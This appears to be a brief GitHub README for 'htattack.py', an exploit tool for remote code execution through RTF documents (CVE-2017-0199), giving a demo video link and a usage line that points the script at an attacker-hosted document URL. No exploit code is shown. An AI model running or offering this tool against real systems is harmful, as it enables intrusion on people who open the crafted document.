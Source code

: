 # htattack.py
An exploit implementation for RCE in RTF docs (CVE-2017-0199).

### Video:
    https://www.youtube.com/watch?v=0lDvclMrymM

### Usage:

    python htattack.py -u <http://[attacker-url]/document.doc> (this has to be the document object embedded in the RTF)
